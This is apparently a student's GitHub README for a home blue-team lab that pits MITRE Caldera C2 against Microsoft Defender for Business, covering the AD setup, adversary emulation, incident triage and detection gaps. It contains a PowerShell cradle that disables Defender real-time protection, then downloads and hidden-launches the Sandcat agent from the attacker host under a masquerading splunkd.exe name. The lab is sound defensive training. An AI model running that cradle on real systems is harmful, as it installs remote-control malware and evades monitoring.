

# Enterprise Threat Detection Lab - Caldera C2 vs Microsoft Defender

**Tools:** Caldera 5.x · Microsoft Defender for Business · Windows Server 2022 · Windows 10 · Kali Linux · VMware Workstation  
**MITRE ATT&CK:** T1113 · T1074 · T1560 · T1005 · T1518 · T1083 · T1560.001  
**Type:** Home Lab · Blue Team · SOC Analysis · Threat Detection · Cloud EDR · C2 Detection

> This lab was independently designed and built as a personal home lab project - not part of coursework. All infrastructure, attack simulation, detection logic, and documentation were self-directed.

> ⚠️ **Disclaimer:** This project was conducted entirely in an isolated VMware lab environment for educational purposes only. No real systems, networks, or individuals were targeted. All IP addresses are private VMware Host-Only addresses that exist solely within the local lab.

---

## Overview

This project simulates a full enterprise SOC workflow - from building an Active Directory domain environment to deploying a real C2 framework, executing MITRE ATT&CK-mapped attack profiles, and triaging the resulting incidents in a cloud-native EDR portal.

The goal was to replicate the exact experience of a SOC Tier 1 analyst: an attacker is already inside the network, malware is running on a domain-joined endpoint, and you are working the incident queue.

**What this lab demonstrates end-to-end:**

1. Build an Active Directory domain (`lab.local`) with Windows Server 2022
2. Domain-join a Windows 10 workstation and onboard it to Microsoft Defender for Business
3. Deploy MITRE Caldera C2 on Kali Linux and establish a live agent on the target
4. Execute multiple adversary profiles (collection, exfiltration, lateral movement)
5. Triage real alerts and incidents generated in the Microsoft Defender portal
6. Map detections back to MITRE ATT&CK techniques

---

## Lab Architecture

```
┌─────────────────────────────────────────────────────────────────┐
│                    VMware Host-Only Network                      │
│                      192.168.255.0/24                            │
│                                                                  │
│  ┌──────────────────┐          ┌──────────────────────────────┐  │
│  │  Windows Server  │          │         Kali Linux           │  │
│  │      2022        │          │   MITRE Caldera C2 Server    │  │
│  │  DC: lab.local   │          │     192.168.255.135          │  │
│  │  192.168.255.130 │          │     localhost:8888           │  │
│  │  AD DS / DNS     │          └──────────────────────────────┘  │
│  └──────────────────┘                        │                   │
│                                              │ C2 Beacon         │
│                                              ▼                   │
│                         ┌──────────────────────────────────┐     │
│                         │       Windows 10 (CORP-PC01)     │     │
│                         │    desktop-4fnnse5.lab.local     │     │
│                         │       192.168.161.156            │     │
│                         │  Domain-joined · MDE Onboarded   │     │
│                         │  Sandcat Agent (splunkd.exe)     │     │
│                         └──────────────────────────────────┘     │
│                                              │                   │
│                                              │ Telemetry         │
│                                              ▼                   │
│                         ┌──────────────────────────────────┐     │
│                         │  Microsoft Defender for Business │     │
│                         │     security.microsoft.com       │     │
│                         │    Cloud EDR · Incident Portal   │     │
│                         └──────────────────────────────────┘     │
└─────────────────────────────────────────────────────────────────┘
```

| VM | OS | IP | Role |
|---|---|---|---|
| Windows Server 2022 | Server 2022 | 192.168.255.130 | Domain Controller (lab.local) |
| Windows 10 | Windows 10 22H2 | 192.168.161.156 | Victim Endpoint (domain-joined) |
| Kali Linux | Kali Rolling | 192.168.255.135 | Attacker / Caldera C2 |
| Cloud Portal | Microsoft Defender | security.microsoft.com | SOC Detection & Response |

---

## Active Directory Setup

### Domain: `lab.local`

```powershell
# Install AD DS role
Install-WindowsFeature -Name AD-Domain-Services -IncludeManagementTools

# Promote to Domain Controller
Install-ADDSForest `
    -DomainName "lab.local" `
    -DomainNetbiosName "LAB" `
    -ForestMode "WinThreshold" `
    -DomainMode "WinThreshold" `
    -InstallDns:$true `
    -Force:$true
```

### Domain Users Created

| Username | Role | Purpose |
|---|---|---|
| jsmith | Standard User | Simulated employee account |
| mjones | Standard User | Simulated employee account |
| sadmin | Domain Admin | Privileged account for attack escalation |

```powershell
# Create domain users
New-ADUser -Name "John Smith" -SamAccountName "jsmith" `
    -AccountPassword (ConvertTo-SecureString "Password@123!" -AsPlainText -Force) `
    -Enabled $true

New-ADUser -Name "Mary Jones" -SamAccountName "mjones" `
    -AccountPassword (ConvertTo-SecureString "Password@123!" -AsPlainText -Force) `
    -Enabled $true

# Create Domain Admin
New-ADUser -Name "SOC Admin" -SamAccountName "sadmin" `
    -AccountPassword (ConvertTo-SecureString "Admin@123!" -AsPlainText -Force) `
    -Enabled $true

Add-ADGroupMember -Identity "Domain Admins" -Members "sadmin"
```

### Domain Join CORP-PC01

```powershell
# On Windows 10 VM
Add-Computer -DomainName "lab.local" `
    -Credential (Get-Credential) `
    -Restart
```

---

## Microsoft Defender Onboarding

**Portal:** `security.microsoft.com`  
**Tenant:** `durgacyberlab.onmicrosoft.com`  
**Product:** Microsoft Defender for Business

### Onboarding Steps

1. Navigate to Settings → Endpoints → Onboarding
2. Select Windows 10 → Local Script → Download package
3. Transfer `WindowsDefenderATPOnboardingScript.cmd` to CORP-PC01
4. Run as Administrator

```powershell
# Verify sensor status after onboarding
Get-Service -Name "Sense"
# Expected: Status = Running
```

**Confirmed in portal:**
```
Device:  desktop-4fnnse5.lab.local
IP:      192.168.161.156
OS:      Windows 10 22H2
Status:  Active / Onboarded
```

---

## Caldera C2 Setup

### Installation on Kali Linux

```bash
# Clone with all submodules
git clone https://github.com/mitre/caldera.git --recursive
cd caldera

# Install Python dependencies
pip3 install -r requirements.txt --break-system-packages

# Install Node.js for UI build
sudo apt install nodejs npm -y

# Start with UI build (first time only)
python3 server.py --insecure --build

# Subsequent starts
python3 server.py --insecure
```

**Access:** `http://localhost:8888`  
**Credentials:** `red` / `admin`

### Agent Deployment to CORP-PC01

```powershell
# On CORP-PC01 - PowerShell as Administrator
# Temporarily disable real-time protection for deployment
Set-MpPreference -DisableRealtimeMonitoring $true

# Deploy Sandcat agent
$server="http://192.168.255.135:8888";
$url="$server/file/download";
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("file","sandcat.go");
$data=$wc.DownloadData($url);
get-process | ? {$_.modules.filename -like "C:\Users\Public\splunkd.exe"} | stop-process -f;
rm -force "C:\Users\Public\splunkd.exe" -ea ignore;
[io.file]::WriteAllBytes("C:\Users\Public\splunkd.exe",$data) | Out-Null;
Start-Process -FilePath C:\Users\Public\splunkd.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;

# Re-enable real-time protection
Set-MpPreference -DisableRealtimeMonitoring $false
```

**Agent confirmed alive in Caldera:**
```
Host:       DESKTOP-4FNNSE5
Group:      red
Platform:   windows
Privilege:  Elevated
Status:     alive, trusted
```

> **Note:** The agent masquerades as `splunkd.exe` in `C:\Users\Public\` - a common C2 persistence technique using a trusted process name (T1036.005 - Masquerading).

---

## Attack Profiles Executed

### Operation 1 - Super Spy (Collection & Discovery)

**Adversary:** Super Spy  
**Objective:** Simulate broad collection and system reconnaissance

| Technique | MITRE ID | Status |
|---|---|---|
| Find files | T1083 | ✅ Success |
| Discover antivirus programs | T1518.001 | ✅ Success |
| Screen Capture | T1113 | ✅ Success |
| Copy Clipboard | T1115 | ✅ Success |
| Create staging directory | T1074.001 | ✅ Success |
| Stage sensitive files | T1074 | ✅ Collected |
| Compress staged directory | T1560.001 | ✅ Collected |

---

### Operation 2 - Ransack (Credential Access & Exfiltration)

**Adversary:** Ransack  
**Objective:** Simulate data theft and exfiltration preparation

| Technique | MITRE ID | Status |
|---|---|---|
| Find files | T1083 | ✅ Success |
| Create staging directory | T1074.001 | ✅ Success |
| Compress staged directory | T1560.001 | ✅ Success |

**Defender Detection Generated:** ✅  
`Suspicious screen capture activity` - Medium severity

---

### Operation 3 - Thief (Exfiltration)

**Adversary:** Thief  
**Objective:** Simulate targeted file theft and staging for exfiltration

| Technique | MITRE ID | Status |
|---|---|---|
| Find files | T1083 | ✅ Success |
| Create staging directory | T1074.001 | ✅ Success |
| Compress staged directory | T1560.001 | ✅ Collected |

---

## Defender Detections & Incident Analysis

### Incident ID 1: 'SandCat' detected on one endpoint

| Field | Value |
|---|---|
| Severity | Medium |
| Status | Active |
| Categories | Collection, Malware |
| Detection Sources | EDR, Antivirus |
| Impacted Device | desktop-4fnnse5.lab.local |
| Impacted Account | Administrator |
| First Activity | Mar 25, 2026 10:48 PM |
| Last Activity | Mar 26, 2026 12:48 AM |
| Priority Score | 17 (escalated across operations) |

**Active Alerts:**
1. `An active 'SandCat' malware was blocked` - Antivirus
2. `Suspicious screen capture activity` - EDR

**Incident Graph:**  
Defender visualized the full attack chain:
```
192.168.255.135 (C2) ──► desktop-4fnnse5 ──► splunkd.exe ──► 2 Processes
```
## Screenshots

### Caldera - Attack Operations


### Microsoft Defender - Incident Analysis




---

## SOC Analyst Triage - Incident Walkthrough

**Scenario:** Alert fires in Defender portal. You are the Tier 1 analyst on duty.

### Step 1 - Initial Triage
- Incident severity: **Medium**
- Device: `desktop-4fnnse5.lab.local` - domain-joined workstation
- Detection source: Both EDR and Antivirus fired - high confidence detection
- Threat name: **SandCat** - known MITRE Caldera C2 agent

### Step 2 - Scope Assessment
- Incident graph shows C2 communication from `192.168.255.135` (external to workstation subnet)
- Agent running as `splunkd.exe` in `C:\Users\Public\` - masquerading as legitimate process
- Privilege level: **Elevated** - attacker has admin rights on endpoint
- Two processes spawned by agent - post-exploitation activity confirmed

### Step 3 - MITRE ATT&CK Mapping

| Tactic | Technique | Evidence |
|---|---|---|
| Execution | T1059.001 PowerShell | Agent deployed via PowerShell |
| Defense Evasion | T1036.005 Masquerading | splunkd.exe in Public folder |
| Collection | T1113 Screen Capture | Alert: Suspicious screen capture |
| Collection | T1074 Data Staged | Staging directory created |
| Exfiltration | T1560.001 Archive via Utility | Compressed staged data |
| C2 | T1071.001 Web Protocols | HTTP beacon to 192.168.255.135:8888 |

### Step 4 - Recommended Response Actions
1. **Isolate** `desktop-4fnnse5` from network immediately
2. **Kill** `splunkd.exe` process (PID confirmed in Caldera logs)
3. **Remove** `C:\Users\Public\splunkd.exe`
4. **Reset** Administrator credentials - elevated access was obtained
5. **Hunt** for lateral movement - check other domain-joined machines for similar beacons
6. **Review** DC logs for any domain replication or privilege escalation attempts
7. **Block** `192.168.255.135` at network perimeter

---

## Key Findings

| Metric | Value |
|---|---|
| Attack profiles executed | 3 |
| MITRE ATT&CK techniques covered | 6 |
| Defender alerts generated | 2 |
| Incident priority score | 17 |
| Detection sources triggered | EDR + Antivirus |
| C2 dwell time before detection | ~1 minute |
| Agent privilege level | Elevated (Administrator) |

---

## Detection Gaps Observed

> Documenting what did NOT alert is legitimate SOC work - understanding detection coverage gaps is a core analyst skill.

| Technique | MITRE ID | Detected? | Reason |
|---|---|---|---|
| Screen Capture | T1113 | ✅ Yes | High-fidelity EDR signal |
| SandCat malware | - | ✅ Yes | Known signature |
| File staging | T1074 | ❌ No | Below alert threshold in Defender for Business |
| Archive creation | T1560 | ❌ No | Low-fidelity without full P2 license |
| Domain enumeration | T1087 | ❌ No | Requires Splunk + Event ID 4662 logging |

**Conclusion:** Microsoft Defender for Business provides solid malware and EDR coverage for known tooling. Detection of living-off-the-land and data staging techniques requires additional telemetry layers (SIEM + audit policy tuning).

---

## Files in this Repo

```
enterprise-threat-detection-lab/
├── README.md
├── scripts/
│   ├── ad-setup.ps1                  # AD DS install + domain promotion
│   ├── create-domain-users.ps1       # User creation script
│   ├── deploy-caldera-agent.ps1      # Sandcat agent deployment
│   └── defender-exclusions.ps1       # MDE exclusion configuration
└── screenshots/
    ├── sandcat-incident-graph.png    # Defender incident graph
    ├── defender-alerts-list.png      # Alert queue view
    ├── caldera-operation-details.png # Attack technique execution log
    └── caldera-agents.png            # Live agent confirmed
```

---

## Skills Demonstrated

- Active Directory deployment and administration (Windows Server 2022)
- Cloud EDR onboarding and configuration (Microsoft Defender for Business)
- C2 framework deployment and operation (MITRE Caldera)
- Adversary emulation using MITRE ATT&CK profiles
- Incident triage and analysis in a cloud SOC portal
- MITRE ATT&CK technique mapping and documentation
- Detection gap analysis and coverage assessment
- Domain environment attack surface understanding

---

## Next Lab: Active Directory Attack Detection

This lab's AD environment will be extended for dedicated AD-focused attack scenarios:
- Kerberoasting (T1558.003) via Impacket
- Pass-the-Hash (T1550.002) via Impacket-psexec
- DCSync (T1003.006) via Impacket-secretsdump
- BloodHound AD enumeration (T1069, T1087)

Detection layer: Splunk + Windows Event IDs 4769, 4624, 4662, 7045 + custom Sigma rules

---

## References

- [MITRE ATT&CK Framework](https://attack.mitre.org)
- [MITRE Caldera Documentation](https://caldera.readthedocs.io)
- [Microsoft Defender for Business](https://docs.microsoft.com/en-us/microsoft-365/security/defender-business/)
- [Windows Security Event IDs](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/)

---

**Author:** Durga Sai Sri Ramireddy | MS Cybersecurity, University of Houston  
[](https://linkedin.com/in/durga-ramireddy)
[](https://github.com/DurgaRamireddy)
